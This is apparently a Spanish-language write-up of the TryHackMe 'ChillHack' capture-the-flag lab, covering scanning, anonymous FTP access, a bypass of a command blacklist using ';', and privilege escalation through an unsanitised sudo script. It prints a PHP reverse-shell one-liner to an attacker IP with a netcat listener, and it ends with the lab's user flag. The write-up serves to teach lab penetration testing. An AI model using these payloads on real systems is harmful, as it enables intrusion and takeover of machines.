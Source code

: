 # ChillHack
Máquina resuelta de *TryHackMe* en la que se trabaja la enumeración y *fingerprinting*, *reverse shell* y la escucha de puertos, esteganografía y la escalada de privilegios.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Dirsearch-005571?style=for-the-badge&logo=dirsearch&logoColor=white" />
  <img src="https://img.shields.io/badge/-php-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ perteneciente a la plataforma *TryHackMe*. Este desafío . Para ello, se deberá interactuar con un formulario, penetrar en la máquina y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar *fingerprinting* y enumeración de puertos y enumeración web.
- 
- Realizar una *reverse shell*.
- Poner en escucha los puertos de la máquina.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *Nmap*, *Dirsearch*.
- Penetración: *FTP*, *Bash*, *PHP*, *Netcat*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar pertenece a la plataforma *TryHackMe*, la propia web te proporciona la IP de la máquina víctima. La conexión a esta se hace mediante una VPN que te proporciona THM y asigna una nueva IP para que tu máquina interactúe con la máquina vulnerable.
El primero paso es lanzar **Nmap** sin *ping* (-Pn) y con los *scripts* por *default* de la herramienta (-sC) para que encuentre vulnerabilidades. Además se quieren conocer las versiones que corren en cada puerto (-sV) y el sistema operativo (-O). No se indica, específicamente, que compruebe todos los puertos pues en este tipo de máquina no será necesario.

<code>nmap -Pn -sV -O 10.10.198.179 -sC</code>

![Captura de pantalla 2025-04-12 174419](https://github.com/user-attachments/assets/b26cb007-7731-455d-a0bb-1105b85ab78b)

El comando devuelve 3 puertos TCPs abiertos:  
- En el puerto 21 corre la versión *vsftpd 3.0.3* del servicio *FTP*. Los *scripts* nos informan de que es posible aaceder al servicio con el usuario 'Anonymous', el cual no necesita contraseña.
- En el puerto 22 corre la versión *Openssh 8.2p1*, en un sistema *Ubuntu*, servicio *SSH*.  
- En el puerto 80 corre el servidor *Apache 2.4.41*, en un sistema *Ubuntu*, servicio *HTTP*.

Primero nos dirigimos, desde el navegador, al puerot 80 de la IP dada, donde se puede ver una página web de deportes. Después de inspeccionarla y navegar por ella, no se encuentra ninguna pista para la explotación.

Seguidamente, con la ayuda de la herramienta **Dirsearch**, se hace una enumeración de posibles directorios y archivos que se encuentren en la web. Por la parte de directorios, aparecen varios pero llama la atención '/secret/', al cual nos dirigiremos primero. *Dirsearch* es lanzado con **Python3** indicando la IP a atacar (-u) y la lista a utilizar para la enumeración (-w); en este caso la 'directory-list-lowercase-2.3-small.txt'.

<code>sudo python3 /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u 10.10.198.179 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt</code>

![Captura de pantalla 2025-04-12 183016](https://github.com/user-attachments/assets/5d917c94-9d13-4a58-8966-c37cae458572)

En el directorio '/secret' se encuentra un panel de comandos el cual tiene una *blacklist* por medio de la cual está filtrando e impidiendo utilizar una serie de palabras. Cada vez que salta este filtro, se muestra una imagen de alerta y un mensaje preguntando '¿eres un hacker?'. Después de realizar varias pruebas, se ha comprobado que hay maneras de saltarse el filtro como concatenando un comando válido con otro por medio de ';'. U ofuscando paalbras, cambiando caracteres por el signo de interrogació, por poner un ejemplo.

### Vulnerabilidades explotadas

Por una parte, se realiza la conexión *FTP* indicando la IP de la víctima, donde se encuentra un documento donde se mencionan 2 posibles usuarios del sistema 'Anurodh' y 'Apaar', e informa del filtrado que ya se ha comprobado en el formulario anterior: *Anurodh told me that there is some filtering on strings being put in the command -- Apaar*.

<code>ftp 10.10.198.179</code>

![Captura de pantalla 2025-04-12 175910](https://github.com/user-attachments/assets/5c4f80d6-b28d-424f-b830-a074bf2a182b)

Como se comentaba en el anterior apartado el panel de comandos no permite según que palabras, tales como  <code>cat</code> o <code>ls</code>. Por todo esto, lo más cómodo será realizar una **reverse shell**. Así que antes se pretende comprobar si dispone de la herramienta de **php** la máquina, para realizar el ataque con esta. Concatenando los siguiente comandos se consigue una respuesta positiva.

<code>pwd;php --version</code>

Con todo esto solo es necesario habilitar un puerto en escucha de la máquina atacante como se ha hecho en otras ocasiones. Y visistar la página de [*Pentestmonkey*](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) para obtener el código *php* para la *reverseshell* que se introducirá en el panel.

<code>nc -lvnp 1234</code>

<code>pwd;php -r '$sock=fsockopen("10.23.92.113",1234);exec("/bin/sh -i <&3 >&3 2>&3");'</code>

![Captura de pantalla 2025-04-13 205517](https://github.com/user-attachments/assets/9e321c4d-87e2-4b48-9847-503742a49d91)

Hecho esto se consigue una *shell* y se comprueba que somos el usuario 'www-data'. En el directorio '/home' aparecen 3 usuarios, de los cuales se tiene acceso a la carpeta de 'apaar'. Dentro de esta, se encuentra un archivo 'local.txt' donde se encuentra el código *php* de la web del panel de comandos y se observa una *blacklist* con las palabras prohibidas para introducir, por las cuales saltaba anteriormente el mensaje de alerta. Pero más interesante es el archivo oculto'.helpline.sh', el cual es un *script* que pide introducir el nombre de la persona con la quie quieres hablar y el mensaje que le quieres dejar. Puesto que no se sanitizan las posibles entradas por teclado, esto se puede utilizar para hacer aparecer la *shell* de Apaar y de esta manera obtener acceso a su usuario.
Para ello se ejecuta el archivo con la ruta absoluta y con el usuario 'apaar'. Para que al provocar la *shell*, esta sea la de este usuario. Esto mismo se consigue introduciendo como respuesta a las preguntas del código <code>/bin/bash</code>.

<code>sudo -u apaar /home/apaar/.helpline.sh</code>


Una vez hecho esto se comprueb el usuario alcanzado y su id.

![image](https://github.com/user-attachments/assets/45d7d820-8d96-442d-9c63-f16b6a56bee9)



**Flag: {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**
